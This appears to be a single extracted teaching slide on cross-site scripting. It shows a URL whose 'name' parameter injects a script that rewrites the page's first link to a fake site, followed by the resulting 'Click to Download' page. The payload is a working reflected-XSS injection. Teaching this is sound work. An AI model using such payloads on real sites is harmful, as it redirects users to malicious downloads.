

# Cross-Site Scripting
http://www.domain.com/index.php?name=John<script>window.onload = function() {var link=document.getElementsByTagName("a"); link[0].href=" http://a-fake-site.com/";}</script>
Welcome John
Click to Download
11